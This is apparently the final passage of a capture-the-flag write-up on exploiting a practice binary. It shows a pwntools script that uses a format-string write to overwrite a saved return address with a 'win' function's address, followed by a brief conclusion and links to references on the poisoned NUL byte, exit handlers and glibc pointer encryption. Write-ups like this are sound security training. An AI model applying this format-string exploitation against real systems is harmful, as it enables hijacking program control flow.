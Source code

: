 ```python
success(f'WIN Address    : {exe.sym.win:#x}')

#### write part ####
offset = 30
padlen = 7

f = FmtStr(send_fmt, offset=30, padlen=7, numbwritten=0x59)
f.write(rbp_addr+0x8, exe.sym.win)
f.execute_writes()

io.sendafter(b'vulnerability:\n', b'END')

io.interactive()
```


**The result:**

![](images/58ed5b7f22e6436a69c0ab633678a4f4.png)


### Conclusion

I think this is perfect binary for practicing other potential targets. As a reminder i dropped 2 link great value to me.

[https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html](https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html)
[https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html](https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html)

## References

[https://sourceware.org/glibc/wiki/PointerEncryption](https://sourceware.org/glibc/wiki/PointerEncryption)


